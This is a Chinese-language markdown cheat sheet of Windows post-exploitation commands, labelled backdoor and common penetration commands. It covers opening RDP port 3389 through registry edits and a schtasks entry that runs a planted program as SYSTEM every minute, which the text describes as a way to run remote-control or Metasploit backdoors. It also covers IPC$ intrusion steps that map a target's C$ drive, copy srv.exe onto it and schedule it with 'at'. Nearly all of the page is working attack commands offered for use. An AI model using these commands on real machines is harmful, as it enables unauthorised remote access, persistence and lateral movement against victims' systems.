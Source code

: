 ## 命令及后门相关
> **后门命令及常用渗透命令** 

### 开3389
```
sc config termservice start= auto
net start termservice
允许外连
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x0 /f 
-------------------------------------------
echo Windows Registry Editor Version 5.00>3389.reg 
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]>>3389.reg 
echo "fDenyTSConnections"=dword:00000000>>3389.reg 
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp]>>3389.reg 
echo "PortNumber"=dword:00000d3d>>3389.reg 
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp]>>3389.reg 
echo "PortNumber"=dword:00000d3d>>3389.reg
之后执行
regedit /s 3389.reg
```

### 运行计划任务
```
使用administrator创建以system用户身份运行程序的计划任务，可以运行如远控或msf后门等
命令： 
schtasks /create /tn "system" /tr C:\Windows\system321.exe\system321.exe /sc MINUTE /mo 1  /ru "System" /RL HIGHEST

参数说明： 
/create #创建任务 
/tn "system"     #指定任务名称为system 
/tr C:\Windows\system321.exe\system321.exe     #指定程序路径 
/sc MINUTE /mo 1     #指定类型；MINUTE表示任务每n分钟运行一次，/mo 1表示每1分钟执行一次
/ru "System"     #指定为system用户运行该任务 
/RL HIGHEST     #运行级别，HIGHEST为使用最高权限运行
```

### IPC入侵
```
net share 查看本地开启的共享 
net share ipc$ 开启ipc$共享 
net use \\ip\ipc$ "" /user:"" 	建立IPC空链接 
net use \\ip\ipc$ "密码" /user:"用户名" 	建立IPC非空链接 
net use h: \\ip\c$ "密码" /user:"用户名" 	直接登陆后映射对方C：到本地为H: 
net use \\ip\ipc$ /del 	删除IPC链接 
net use h: /del 	删除映射对方到本地的为H:的映射 
net time \127.0.0.25         #查时间
at \\ip time 程序名(或一个命令) /r 	在某时间运行对方某程序并重新启动计算机
at \\127.0.0.25 10:50 srv.exe  #用at命令在0点50分启动srv.exe（注意这里设置的时间要比主机时间快）
at \\127.0.0.25 10:50 "echo 5 > c:\t.txt" 在远程计算机上建立文本文件t.txt； 
copy srv.exe \\hacden-pc\c$    #复制srv.exe到目标c盘上去 
```
